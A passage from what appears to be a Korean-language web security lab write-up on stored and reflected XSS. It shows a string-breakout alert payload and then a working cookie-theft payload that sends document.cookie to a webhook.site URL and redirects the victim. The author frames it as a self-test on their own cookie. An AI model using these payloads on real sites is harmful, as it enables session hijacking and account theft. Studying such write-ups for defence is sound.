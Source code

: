 ```js
]');alert('취약')//
```

위 페이로드를 입력한 결과, **`취약`이라는 메시지를 포함한 alert 창이 정상적으로 출력**되었다.

위 취약점을 이용하여 **쿠키를 탈취하는 악성 스크립트를 삽입**할 예정이다.

**일단 페이로드의 정상 작동 여부를 확인하기 위해, 본인의 쿠키 값을 Webhook으로 전송하는 테스트를 먼저 수행하였다.**

이번에는 쿠키 값을 수신한 후, 특정 페이지로 리다이렉트하는 방식으로 공격을 진행할 것이다.

```html
]');new+Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="%2Bdocument.cookie;location.href="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01";//&pw=123123
```

**위와 같이 페이로드를 작성한 후, 실행 결과:**

![xss6 redirect](/assets/web-screenshots/stored-reflected-xss/xss6_redirect.png)

쿠키 전송이 완료되면, 페이로드 내 `location.href`에 의해 사용자는 지정된 페이지로 리다이렉트된다.
